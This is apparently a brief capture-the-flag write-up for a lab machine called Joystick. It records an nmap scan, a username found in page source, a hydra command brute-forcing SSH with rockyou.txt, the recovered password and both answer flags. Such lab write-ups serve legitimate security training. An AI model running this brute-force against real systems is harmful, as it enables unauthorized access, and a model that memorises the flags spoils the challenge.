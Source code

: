 #JOYSTICK CTF

#Machines ip: 10.10.241.107
	
	cmd: nmap -A -v -p- <ip> 
	open ports:
		21
		80
		22

When we go to the http://ip and check the page source code,we can see there is a message.
	from there we get 
	
		USERNAME - steve
		Weak password ftp+ssh
		ftp not working
		message to Zach

So we can use hydra to bruteforce the credentials.

	hydra -l steve -P rockyou.txt ssh://ip

#Results: 

	we got the credentials [steve:changeme]

Now lets ssh the ip..and see whats there
	
	ok..we got our first flag in user.txt 
		ans 1: [flag{is_only_gaem}]
		
So,when go to home we see there is another user named notch.

	In there,we get the final flag root.txt
		ans 2: [flag{poorly_configured_permissions}]


[End of the Game]

